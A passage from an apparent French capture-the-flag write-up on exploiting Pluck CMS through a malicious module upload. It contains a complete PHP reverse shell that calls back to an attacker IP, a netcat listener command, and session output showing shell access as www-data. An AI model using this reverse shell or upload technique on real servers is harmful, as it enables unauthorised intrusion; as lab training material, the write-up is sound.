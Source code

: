 ```python
    print("Login problem. response code:", login_response.status_code)


rce_url="http://localhost/pluck/data/modules/reverse-shell/reverse-shell.php"

rce=requests.get(rce_url)

print(rce.text)
```

Il ne reste plus qu'à créer le `reverse-shell.zip` avec le `reverse-shell.php` à l'intérieur pour être exécuté par le RCE:

```php
<?php
$ip = '10.10.14.174'; // change this to your IP address
$port = 4444; // change this to your listening port
$socket = fsockopen($ip, $port);
if ($socket) {
    $shell = 'uname -a; w; id; /bin/sh -i';
    fwrite($socket, $shell);
    while (!feof($socket)) {
        $command = fgets($socket);
        $output = '';
        if ($command) {
            $output = shell_exec($command);
            fwrite($socket, $output);
        }
    }
    fclose($socket);
}
?>
```

Puis, on lance netcat pour écouter les connexions entrantes:

```bash
nc -lvnp 4444
```

On exécute finalement le script `upload-reverse-shell.py`:

```bash
python upload-reverse-shell.py
```

On voit qu'une connexion est établie à netcat:

```bash
listening on [any] 4444 ...
connect to [10.10.14.174] from (UNKNOWN) [10.10.11.25] 51092
uname -a; w; id; /bin/sh -i
```

Une fois dans le serveur, on fait un peu de recon:

```bash
whoami
www-data
pwd
/var/www/html/pluck
ls
README.md
SECURITY.md
admin.php
data
docs
files
images
```